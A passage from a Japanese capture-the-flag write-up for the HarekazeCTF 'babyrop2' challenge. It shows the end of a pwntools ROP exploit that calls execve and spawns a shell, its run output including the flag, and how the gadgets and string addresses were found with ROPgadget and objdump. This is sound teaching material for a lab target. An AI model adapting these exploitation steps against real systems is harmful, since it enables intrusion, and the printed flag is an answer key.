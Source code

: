 ```
s += pwn.p64(rop_pop_rsi)
s += pwn.p64(0x0)
s += pwn.p64(0x0)
s += pwn.p64(addr_execve)

io.sendline(s)
buf = io.recvline()
print(buf)
io.interactive()
```

### 実行結果

```bash-statement
$ python exploit_05.py
[+] Opening connection to problem.harekaze.com on port 20005: Done
b"What's your name? Welcome to the Pwn World again, AAAAAAAAAAAAAAAAAAAAAAAAAAAAa!\n"
b"Welcome to the Pwn World again, @\xa7'\xa9\xd1\x7f!\n"
b"What's your name? Welcome to the Pwn World again, AAAAAAAAAAAAAAAAAAAAAAAAAAAAY!\n"
[*] Switching to interactive mode
$ cat /home/babyrop2/flag
HarekazeCTF{u53_b55_53gm3nt_t0_pu7_50m37h1ng}
$
```


### rop_pop_rdi、rop_pop_rsi

ROPでそれぞれRDIとRSIに値を設定するためのgadget。
printfの呼び出しとexecveの呼び出しの両方で利用する。

探すのにはROPgadgetコマンドを使う。

```bash-statement
$ ROPgadget --binary ./babyrop2
Gadgets information
============================================================
0x0000000000400733 : pop rdi ; ret
0x0000000000400605 : pop rsi ; or ah, byte ptr [rax] ; add byte ptr [rcx], al ; ret
0x0000000000400731 : pop rsi ; pop r15 ; ret
```

```python
rop_pop_rdi = 0x0000000000400733
rop_pop_rsi = 0x0000000000400731
```

### addr_welcome

アドレスのリーク用の"Welcome to the Pwn World again, %s!"の文字列のアドレス。これスカッとアドレスを一発で探す方法は無いんだろうか。
とりあえずobjdump -sで探している。

```bash-statement
$ objdump -s ./babyrop2
Contents of section .rodata:
 400750 01000200 00000000 57686174 27732079  ........What's y
 400760 6f757220 6e616d65 3f200000 00000000  our name? ......
 400770 57656c63 6f6d6520 746f2074 68652050  Welcome to the P
 400780 776e2057 6f726c64 20616761 696e2c20  wn World again,
 400790 2573210a 00                          %s!..
$ 
```

